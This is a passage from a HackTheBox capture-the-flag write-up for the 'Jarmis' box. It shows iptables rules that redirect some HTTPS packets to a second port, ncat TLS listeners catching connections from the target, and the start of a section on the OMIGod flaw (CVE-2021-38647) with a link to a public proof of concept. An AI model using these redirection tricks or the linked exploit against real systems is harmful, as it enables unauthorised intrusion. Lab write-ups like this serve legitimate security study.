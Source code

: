 

    sudo iptables -F -t nat
    sudo iptables -I PREROUTING -t nat -p tcp --dport 443 -m statistic --mode nth --every 11 --packet 10 -j REDIRECT --to-port 8443



The first will just clear the `nat` table, which is important to reset
the counters (and a good command to run once I'm done with the box to
reset these rules).

The second will look for traffic incoming to port 443 and then use the
statistics mode to send every 11th packet to 8443.

I'll run these and start `ncat` TLS listeners on both 443 and 8443. When
I give my IP to Jarmis, I first see the hit on `ncat` on 443:



    root@parrot[/media/sf_CTFs/hackthebox/jarmis-10.10.11.117]# nc --ssl -lnvp 443
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
    Ncat: SHA-1 fingerprint: ACB6 84C7 BE48 EB21 CA98 BAF7 6887 1DD4 3E1F 736A
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.11.117.
    Ncat: Connection from 10.10.11.117:47724.
    Ncat: Failed SSL connection from 10.10.11.117: error:00000000:lib(0):func(0):reason(0)



Then a second or two later on 8443:



    root@parrot[/media/sf_CTFs/hackthebox/jarmis-10.10.11.117]# nc --ssl -lnvp 8443
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
    Ncat: SHA-1 fingerprint: A61B 19A8 8652 BA80 3C3E F71E EE41 7909 99B3 B456
    Ncat: Listening on :::8443
    Ncat: Listening on 0.0.0.0:8443
    Ncat: Connection from 10.10.11.117.
    Ncat: Connection from 10.10.11.117:47768.
    GET / HTTP/1.1
    Host: 10.10.14.6
    User-Agent: curl/7.74.0
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: keep-alive



## OMIGod

### Python POC

[This GitHub](https://github.com/horizon3ai/CVE-2021-38647) has a POC
for CVE-2021-38647. The background about the CVE is that the Microsoft
implementation of [Open Management
Infrastructure](https://github.com/microsoft/omi) didn't handle missing
auth headers well, and just let it work.
